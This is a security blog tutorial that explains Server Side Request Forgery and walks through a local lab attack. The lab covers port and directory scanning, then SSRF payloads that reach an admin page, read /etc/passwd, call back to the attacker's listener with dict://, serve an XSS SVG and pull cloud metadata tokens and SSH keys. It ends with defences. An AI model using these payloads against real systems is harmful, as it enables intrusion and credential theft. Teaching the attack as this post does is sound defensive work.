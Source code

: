 :slug: understanding-ssrf/
:date: 2020-05-06
:category: attacks
:subtitle: Attacking a web server using SSRF
:tags: security, web, vulnerability, ethical-hacking
:image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620331136/blog/understanding-ssrf/cover_srzscf.webp
:alt: Blacksmith. Photo by Hannah Gibbs on Unsplash: https://unsplash.com/photos/BINLgyrG_fI
:description: Here we will see what a Server Side Request Forgery is, how hackers can exploit it, and what are the best ways to protect against this attack.
:keywords: Web, Security, Vulnerability, Hacking, SSRF, Input Validation, Ethical Hacking, Pentesting
:author: Jonathan Armas
:writer: johna
:name: Jonathan Armas
:about1: Systems Engineer, OSCP - Security+
:about2: "Be formless, shapeless like water" Bruce Lee
:source: https://unsplash.com/photos/BINLgyrG_fI

= Understanding SSRF

Many web applications request outside services
for data, configurations, updates, among others.
This is beneficial for the developers and maintainers
because it keeps separation of duties in their infrastructure,
one for managing the view and another for the data.
When it is done right, these applications are easier to maintain
and to add features to,
but there are some intrinsic risks
in getting information through the internet using web services.

`Server Side Request Forgery`, `SSRF`, occurs when
an attacker can create requests
from the vulnerable server to the internet/intranet.
Typically, the vulnerable server has a functionality
that reads data from a URL, publishes data to a URL,
or imports data from a URL.
An attacker could abuse this functionality
to read or update internal resources,
or bypass access controls
like firewalls that prevent the attackers from accessing them directly.

In a normal use case,
the vulnerable application works like this:

.normal use case
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/normal-case_olhdmb.webp[normal-case]

. The user requests information from an external server
through the Web Server. For example,
`GET /?url=http://external.server/data HTTP/1.1`
. The server makes the request to the external server
. If the request is to an intranet server,
then it passes through the company firewall
. The external server responds with the data requested,
and the user receives it

When an attacker finds this,
and he wants to bypass the firewall
in order to get internal resources,
then the process of the attack is the following:

.ssrf attack
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331134/blog/understanding-ssrf/ssrf_n3pvyq.webp[ssrf-attack]

. The attacker makes the same request
but modifies the payload
for a request to another internal server, for example,
`GET /?url=http://admin.server/users HTTP/1.1`
. The server makes the request to the modified server
. The request passes through the company firewall
bypassing its measures
. The admin server responds with the data requested by the attacker

== SSRF lab

To set up our lab,
we are going to use `Hashicorp's` link:https://www.vagrantup.com/[Vagrant];
the source files are below.
Create a folder with the name `ssrf`
and save the `Vagrantfile` there.

.setting up the lab
[source, bash, linenums]
----
$ mkdir ssrf
$ cd ssrf
ssrf$ nano Vagrantfile #Add the content here
----

.Vagrantfile
[source, ruby]
----
# -*- mode: ruby -*-
# vi: set ft=ruby :

Vagrant.configure("2") do |config|

  config.vm.box = "jarmasatfluid/ssrftest"
  config.vm.box_version = "1"
  config.vm.network "private_network", ip: "192.168.56.2"

end
----

Then run the environment using:

.vagrant up
[source, bash]
----
ssrf$ vagrant up
----

This will create a `Linux` machine
with `LAMP` installed and configured.
At this point, everything we need has been completed
and is ready for us to launch an attack.

Now we can set up our attacking machine.
Here we are using link:https://www.kali.org/[Kali Linux] with `Vagrant` too,
but you can use whatever `OS` you prefer.

These are the tools that we are going to use:

* link:https://portswigger.net/burp[Burpsuite]
* link:http://netcat.sourceforge.net/[Netcat]
* link:https://tools.kali.org/web-applications/dirbuster[Dirbuster]
* link:https://www.python.org/[Python]

If you are using `Kali`, then everything has already been installed by default.

We are ready to go.

== Enumerating our server

First, we need to check the server ports.
We can use `nmap` or `ncat` to do it.

.port scanning
[source, bash, linenums]
----
$ nmap 192.168.56.2
$ ncat -vz 192.168.56.2 80
$ ncat -vz 192.168.56.2 3306
----

.nmap output
[source, bash]
----
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-05 13:32 SA Pacific Standard Time
Nmap scan report for 192.168.56.2
Host is up (0.00051s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
25/tcp open  smtp
80/tcp open  http
MAC Address: 08:00:27:0A:C5:08 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 10.19 seconds
----

.nc
[source, bash]
----
Ncat: Connected to 192.168.56.2:80.
Ncat: 0 bytes sent, 0 bytes received in 0.31 seconds.
Ncat: No connection could be made because the target machine actively refused it. .
----

Our server runs `Apache` on `port 80`
and `MySQL` on `port 3306`, but we do not have access to it.

Then using `Dirbuster`, we can search for directories on the web server.

.dirbuster
[source, bash]
----
$ dirb http://192.168.56.2/

DIRB v2.22
By The Dark Raver

START_TIME: Tue May  5 13:30:46 2020
URL_BASE: http://192.168.56.2/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

GENERATED WORDS: 4612

 Scanning URL: http://192.168.56.2/
==> DIRECTORY: http://192.168.56.2/code/
+ http://192.168.56.2/index.html (CODE:200|SIZE:11321)
+ http://192.168.56.2/server-status (CODE:403|SIZE:277)

 Entering directory: http://192.168.56.2/code/
+ http://192.168.56.2/code/admin.php (CODE:302|SIZE:2160)
+ http://192.168.56.2/code/index.php (CODE:200|SIZE:1148)

END_TIME: Tue May  5 13:30:53 2020
DOWNLOADED: 9224 - FOUND: 4
----

As we can see, there is an admin site to which we do not have access,
and a normal site to search for products.

== SSRF attacks

Given that we have access to the search products site,
then we can make a request and intercept it:

.products request
[source, bash]
----
POST /code/ HTTP/1.1
Host: 192.168.56.2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 82
Origin: http://192.168.56.2
Connection: close
Referer: http://192.168.56.2/code/
Cookie: PHPSESSID=6tp090rfsdurfgg5hlfrgr7v97
Upgrade-Insecure-Requests: 1

product_id=5&url=http%3A%2F%2F127.0.0.1%2Fcode%2Fproducts.php%3Fproduct_id%3D&s=OK
----

There we can see that it makes a request with a URL to retrieve the data.
So, what happens when we modify the URL?
Let's change it to `https://owasp.org/`:

.simple SSRF
----
product_id=&url=https%3a//owasp.org/&s=OK
----

Then it will load the `OWASP` web page on our site:

.ssrf vulnerable
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/ssrf-vulnerable_fmgfou.webp[ssrf-vulnerable]

Now we have several options to work with.

Reflected XSS::

Let's create an `SVG` image in our kali machine
with an `XSS` payload
and then serve it on a local `Python` server:

.local xss
[source, bash]
----
$ nano payload.svg # Put the content here
$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
----

.payload.svg content
----
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#FF3435" stroke="#FF3435"/>
<script type="text/javascript">
alert('PWNED');
</script>
</svg>
----

Then simply put your URL into the request and watch the result:

.SSRF to XSS payload
----
product_id=&url=http%3a//<YOUR_IP>%3a8000/payload.svg&s=OK
----

.SSRF to XSS result
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/xss_zi2u62.webp[xss-vulnerable]

Bypassing controls::

As we saw earlier, we could not access the admin section of the server;
this can be bypassed with this vulnerability:

.SSRF to admin payload
----
product_id=&url=http%3A%2F%2F127.0.0.1%2Fcode%2Fadmin.php&s=OK
----

.SSRF to admin result
image::https://res.cloudinary.com/fluid-attacks/image/upload/v1620331135/blog/understanding-ssrf/admin_vqyfda.webp[control-bypass]

If the server had some local HTTP servers
like a `mongodb` database,
we could bypass the access controls with this vulnerability.

Information disclosure::

We can use `file://` to get internal files:

.file usage
----
product_id=&url=file%3a///etc/passwd&s=OK
...
<div class="row d-flex justify-content-center">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
----

We can also use the `dict://` URL schema to connect to a server and send data:

.dict usage
----
$nc -lvp 8000
# Payload
product_id=&url=dict%3a//<YOUR_IP>%3a8000/pwned&s=OK
...
Ncat: Connection from IP:PORT.
CLIENT libcurl 7.47.0
pwned
QUIT
...
----

This is useful when we find another vulnerable server or service,
because we can send data to it and maybe even execute commands.

Port enumeration::

.port enum
----
# Port open
product_id=&url=127.0.0.1%3a3306&s=OK
...
<div class="row d-flex justify-content-center">
5.5.5-10.0.38-MariaDB-0ubuntu0.16.04.1
...
# Port closed
...
<div class="row d-flex justify-content-center">
</div>
...
----

Cloud goodies::

If the target uses `Amazon EC2` or `Google Cloud`,
then you can request metadata from them:

.cloud SSRF
----
# Amazon
http://169.254.169.254/latest/meta-data/hostname
http://169.254.169.254/latest/user-data/
# Google Cloud
http://metadata.google.internal/computeMetadata/v1beta1/instance/service-accounts/default/token
http://metadata.google.internal/computeMetadata/v1beta1/project/attributes/ssh-keys?alt=json
----

Because the server uses `cURL`,
there are some URL schemas that this library does not support,
like `ssh22`, `expect`, among others.
For more information and payloads,
you can go link:https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery[here]
or check this paper from link:https://owasp.org/www-project-cheat-sheets/assets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet_SSRF_Bible.pdf[OWASP].


== Solution

The first level of protection against this attack
is to implement input validation.
It could be in the form of validating the domain name of the target host
using a whitelist.
With this, if the attacker tries to access more resources,
it will be impossible for him.

Besides, if it is possible, avoid querying URLs using user input.
Even if they are hidden fields,
an attacker can modify them and exploit a SSRF vulnerability.
It is better to request resources
directly on the web server
whenever it is possible.

Another way to do this is to prevent the web application
to access only the resources that it will need
by segregating the network.
This will prevent access to other resources in the network,
but it does not work against local access.

If you want more information about protections against SSRF,
you can check link:https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html[OWASP]
or our link:https://docs.fluidattacks.com/criteria/[*Criteria*].
